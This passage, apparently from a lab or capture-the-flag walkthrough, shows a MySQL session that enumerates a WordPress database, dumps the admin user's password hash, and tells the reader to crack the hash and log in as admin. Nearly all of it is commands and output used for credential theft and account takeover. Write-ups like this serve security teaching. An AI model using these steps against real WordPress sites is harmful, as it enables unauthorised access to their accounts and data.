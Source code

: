   ```
  | wptry_comments           |
  | wptry_links              |
  | wptry_options            |
  | wptry_postmeta           |
  | wptry_posts              |
  | wptry_term_relationships |
  | wptry_term_taxonomy      |
  | wptry_termmeta           |
  | wptry_terms              |
  | wptry_usermeta           |
  | wptry_users              |
  +--------------------------+
  12 rows in set (0.257 sec)
  
  MySQL [wordpressdb2]> describe wptry_users
      -> ;
  +---------------------+---------------------+------+-----+---------------------+----------------+
  | Field               | Type                | Null | Key | Default             | Extra          |
  +---------------------+---------------------+------+-----+---------------------+----------------+
  | ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
  | user_login          | varchar(60)         | NO   | MUL |                     |                |
  | user_pass           | varchar(255)        | NO   |     |                     |                |
  | user_nicename       | varchar(50)         | NO   | MUL |                     |                |
  | user_email          | varchar(100)        | NO   | MUL |                     |                |
  | user_url            | varchar(100)        | NO   |     |                     |                |
  | user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
  | user_activation_key | varchar(255)        | NO   |     |                     |                |
  | user_status         | int(11)             | NO   |     | 0                   |                |
  | display_name        | varchar(250)        | NO   |     |                     |                |
  +---------------------+---------------------+------+-----+---------------------+----------------+
  10 rows in set (0.259 sec)
  
  MySQL [wordpressdb2]> select user_pass from wptry_users where id=1;
  +------------------------------------+
  | user_pass                          |
  +------------------------------------+
  | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 |
  +------------------------------------+
  1 row in set (0.255 sec)
  
  MySQL [wordpressdb2]> select user_nicename from wptry_users where id=1;
  +---------------+
  | user_nicename |
  +---------------+
  | corp-001      |
  +---------------+
  1 row in set (0.287 sec)
  ```

- Crack that hash and login as admin on `wp-login`.
